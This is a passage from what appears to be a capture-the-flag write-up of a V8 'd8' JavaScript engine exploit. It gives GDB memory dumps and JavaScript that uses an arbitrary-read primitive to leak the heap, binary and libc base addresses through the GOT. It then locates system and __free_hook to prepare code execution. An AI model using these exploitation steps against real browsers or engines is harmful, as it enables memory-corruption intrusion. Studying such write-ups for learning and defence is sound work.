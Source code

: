 ```javascript
gef➤  x/200gx 0x5555562f9000
0x5555562f9000 <_ZN2v85Shell15local_counters_E+2400>:	0x0000000000000000	0x0000000000000000
0x5555562f9010 <_ZN2v85Shell15local_counters_E+2416>:	0x0000000000000000	0x0000000000000000
0x5555562f9020 <_ZN2v85Shell15local_counters_E+2432>:	0x0000000000000000	0x0000000000000000
[...]
```

Ok, pretty useless. What about if we actually use the heap addresses we have, and see if there's anything useful there? The first one has nothing useful, but the second:

```javascript
gef➤  x/10gx 0x000055555631a2e0
0x55555631a2e0:	0x00005555562dbea8	0x0000000000001000
0x55555631a2f0:	0x0000000000001000	0x0000000000000021
[...]
```

The `vmmap` output for this specific run shows a binary base of `0x555555554000` and a heap base of `0x5555562f9000`. This makes the first address a binary address! Let's make sure it's a consistent offset from the base, and we're also gonna swap out our exploit to use the second heap address we spotted in the map region. And it is!

```javascript
let heap_leak = arb_read(map_reg_start + 0x18n);
let heap_base = heap_leak - 0x212e0n;
console.log("[+] Heap Base: 0x" + heap_base.toString(16));

let binary_leak = arb_read(heap_leak);
let binary_base = binary_leak - 0xd87ea8n;
console.log("[+] Binary Base: 0x" + binary_base.toString(16));
```

Now we just have to work out the GOT offset and read the entry to find libc base!

```bash
readelf -a d8 | grep -i read
[...]
000000d9a4c0  003d00000007 R_X86_64_JUMP_SLO 0000000000000000 read@GLIBC_2.2.5 + 0
[...]
```

So the GOT entry is an offset of `0xd9a4c0` from base. Easy leak:

```javascript
let read_got = binary_base + 0xd9a4c0n;
console.log("[+] read@got: 0x" + read_got.toString(16));
let read_libc = arb_read(read_got);
console.log("[+] read@libc: 0x" + read_libc.toString(16));
let libc_base = read_libc - 0xbc0430n;
console.log("[+] LIBC Base: 0x" + libc_base.toString(16));
```

Then we just need to get system and free\_hook offsets, and we are good to go. Pretty easy from inside GDB:

```
gef➤  p &system
$1 = (int (*)(const char *)) 0x7ffff7054420 <__libc_system>
gef➤  p &__free_hook
$2 = (void (**)(void *, const void *)) 0x7ffff73f28e8 <__free_hook>

```
